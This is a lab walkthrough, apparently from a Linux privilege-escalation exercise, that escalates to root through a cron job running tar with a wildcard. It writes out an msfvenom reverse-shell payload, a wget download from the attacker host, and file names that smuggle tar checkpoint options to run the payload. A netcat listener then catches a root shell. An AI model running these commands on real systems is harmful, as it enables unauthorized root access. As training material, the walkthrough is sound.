 # Task 10 : Cron Jobs - Wildcards 
```console
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Note that the tar command is being run with a wildcard (*) in your home directory. Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature. Next step is create a reverse shell ELF binary using ```msfvenom```
```console
kali@kali:~/LinuxPrivEsc$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ur ip> LPORT=<ur port> -f elf -o shell.elf # crate reverse shell
kali@kali:~/LinuxPrivEsc$ python -m SimpleHTTPServer 8000 # create a httpserver
```
now use wget to get the reverse shell ELF binary
```console
user@debian:~$ wget 10.8.14.151:8000/shell.elf
--2020-05-22 23:08:04--  http://10.8.14.151:8000/shell.elf
Connecting to 10.8.14.151:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: “shell.elf”

100%[====================>] 194         --.-K/s   in 0s      

2020-05-22 23:08:04 (25.2 MB/s) - “shell.elf” saved [194/194]

user@debian:~$ ls
myvpn.ovpn  overwrite.sh  shell.elf  test  tools
user@debian:~$ chmod +x /home/user/shell.elf # make it executable
user@debian:~$ touch /home/user/--checkpoint=1 # create 2 files
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames. now set up netcat and wait for cron job to execute our reverse shell
```console
kali@kali:~/LinuxPrivEsc$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.236.173] 56585
ls
--checkpoint-action=exec=shell.elf
--checkpoint=1
myvpn.ovpn
overwrite.sh
shell.elf
test
tools
whoami
root
```
